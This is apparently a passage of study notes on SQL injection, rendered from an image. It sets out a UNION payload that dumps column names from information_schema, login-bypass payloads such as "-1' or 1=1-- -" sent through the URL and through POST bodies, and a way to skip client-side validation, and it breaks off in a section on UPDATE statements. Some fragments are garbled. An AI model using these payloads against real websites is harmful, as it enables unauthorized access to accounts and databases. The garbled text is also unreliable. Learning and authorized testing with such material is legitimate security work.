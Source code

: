 ```sql
UNION ALL SELECT group_concat(column_name),null,..NUMBERTOTABLES..,null FROM information_schema.columns WHERE table_name="TABLETHEPAGEISREFLECTING"
```

```html
<!-- URL shows ID endpoint -->
http://website/about/0'
<!-- Beware how the application is handling the query --> 
http://website/about/0 UNION ... <!-- No need for quotes or comments AAARG!-->
```

#### URL and POST Injection
Consider
```javascript
// Client side controls
function validateform() {
    var profileID = document.inputForm.profileID.value;
    var password = document.inputForm.password.value;

    if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
        alert("The input fields cannot contain special characters");
        return false;
    }
    if (profileID == null || password == null) {
        alert("The input fields cannot be empty.");
        return false;
    }
}
```

URL Injection - URL bar in Browser!
```html
<!-- URL shows URL parameters -->
http://website/login?profileID=a&password=a 
<!-- Client Validation bypass, by going directly to URL  -->
http://website/login?profileID=-1' or 1=1-- -&password=a
<!-- URL encode -->
http://website/login?profileID=-1%27%20or%201=1--%20-&password=a 
```

POST Injection - POST request has data 
```html
POST /login <!-- POST request -->mysqltutorial
Host: website
...
Referer: website
<!-- Newline goes here, below is the data -->
profileID=-1' or 1=1-- -&password=a
```

#### UPDATE statement
SQLi on UPDATE can modify database **BEWARE**
```html
<!-- html form -->
<input type="text" class="form-control" placeholder "Username" id="username" value="">
...
<input type="text" class="form-control" placeholder "Email" id="email" value="">
...
<input type="text" class="form-control" placeholder "Password" id="password" value="">
```
